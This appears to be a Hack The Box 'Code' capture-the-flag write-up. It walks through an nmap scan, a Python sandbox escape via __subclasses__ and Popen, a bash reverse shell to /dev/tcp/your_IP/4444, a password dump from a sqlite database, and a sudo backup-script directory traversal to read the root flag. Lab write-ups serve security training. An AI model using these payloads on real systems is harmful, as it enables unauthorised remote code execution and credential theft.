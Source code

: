 # Write Up for The HTB Code Box

## Enumeration

Launching into the Box my IP was `10.10.11.62`

Using Nmap I will Scan the Ip for open Ports `nmap -sC -sV -T4 <ip>`

<img width="823" height="302" alt="codenmap" src="https://github.com/user-attachments/assets/36c801b6-5cd0-44a4-bd8c-43fda50e19ad" />

Http webside on port 5000. Looking at the website it sanitises the inputs you give it.

# Exploitation

On a meduim Writeup I saw you can display exceptions! So i try `print((()).__class__.__bases__[0].__subclasses__())` I see alot of classes and need the Popen one to spawn a shell. 

I used microsoft word as a find tool and got `raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)` perfect!

<img width="973" height="61" alt="popen" src="https://github.com/user-attachments/assets/426198a4-6ba7-4839-a9f2-eb5ec728126d" />

Write a shell to get in `raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))`

After that got my shell as app-prodution. Looking for files to write to I find a data base .db hmmm `cd instance sqlite3 database.db.tables SELECT * FROM USER;`

<img width="469" height="156" alt="sqlicode" src="https://github.com/user-attachments/assets/e29e2a98-e7c3-46bf-9bb5-5260357dd3df" />

I used Crackstation to then find martins password and logged in via ssh 

# Root Flag

Next I used `sudo -l` to see any commands that can be run 

<img width="793" height="141" alt="sudocode" src="https://github.com/user-attachments/assets/7b23ef0a-2501-4617-9c41-9ec17b2e8f1d" />

Looking into the file its a backup file that uses task.json which just backups any directory

I tried to get it to back up the root directoy but that failed so I looked up directory traversial methods and got my answer.

I modified the task.json file and ran it

<img width="610" height="194" alt="task" src="https://github.com/user-attachments/assets/b2fbca72-f321-4e22-a135-441d99263b05" />

Unzip the folder and go into the root and the `root.txt` flag is there

<img width="803" height="75" alt="rootflagcode" src="https://github.com/user-attachments/assets/4ac8c299-2cee-4eff-bc1e-59b0962e009f" />
